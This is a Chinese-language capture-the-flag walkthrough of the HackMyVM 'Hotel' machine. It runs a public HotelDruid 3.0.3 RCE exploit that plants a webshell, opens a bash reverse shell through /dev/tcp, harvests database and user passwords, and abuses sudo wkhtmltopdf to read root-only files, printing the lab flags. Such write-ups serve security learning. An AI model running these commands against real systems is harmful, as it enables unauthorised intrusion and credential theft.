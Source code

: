 # Hotel

2025.02.14 https://hackmyvm.eu/machines/machine.php?vm=Hotel

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

访问 80 web 底部显示的是 HotelDruid 是一个 CMS，访问 http://192.168.5.40/doc/README.english 发现了系统的版本 HotelDruid version 3.0.3， 看看有没有可以直接利用的漏洞，发现可能有 RCE 命令注入，https://www.exploit-db.com/exploits/50754 下载 exp py 文件， 可以直接访问到 dashboard，不需要认证信息：

```
python3 50754.py -t http://192.168.5.40 --noauth

[*] Trying to access the Dashboard.
[*] Checking the privilege of the user.
[+] User has the privilege to add room.
[*] Adding a new room.
[+] Room has been added successfully.
[*] Testing code exection
[+] Code executed successfully, Go to http://192.168.5.40/dati/selectappartamenti.php and execute the code with the parameter 'cmd'.
[+] Example : http://192.168.5.40/dati/selectappartamenti.php?cmd=id
[+] Example Output : uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

已经写入了 webshell，直接 kali 建立监听，获得反弹 shell：

```
nc -lvnp 8888

curl -G --data-urlencode 'cmd=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40/dati/selectappartamenti.php
```

获得了反弹的 shell，发现一个用户 person 但是没有权限读取 user.txt，先找到了数据库配置连接文件：

```
www-data@hotel:~/html/hoteldruid$ cat /var/www/html/hoteldruid/dati/dati_connessione.php
<?php
$PHPR_DB_TYPE = "mysqli";
$PHPR_DB_NAME = "hotel";
$PHPR_DB_HOST = "localhost";
$PHPR_DB_PORT = "3306";
$PHPR_DB_USER = "adminh";
$PHPR_DB_PASS = "adminp";
$PHPR_LOAD_EXT = "";
$PHPR_TAB_PRE = "";
$PHPR_LOG = "NO";
```

但是上面的密码不是 person 用户的密码，继续寻找，发现 ttylog 文件,尝试读取，发现了 person 用户的密码：

```
www-data@hotel:~/html$ /usr/bin/ttyplay ttylog
person@hotel:~$ my passw0rd is Endur4nc3. enjoy it!
```

使用密码 Endur4nc3. 切换到 person 用户，得到了 user flag:

```
person@hotel:~$ cat user.txt
RUvSNcQ3m2OyHzxHMV
```

sudo -l 发现: (root) NOPASSWD: /usr/bin/wkhtmltopdf 不是 GTFOBin 中的，看看它的帮助信息，将文件转化成 pdf，所以直接可以读取 root flag：

```
sudo wkhtmltopdf /root/root.txt flag.pdf
```

读取 flag.pdf 中的内容得到了 root flag：

```
7MUnADgp3g4STEPHMV
```
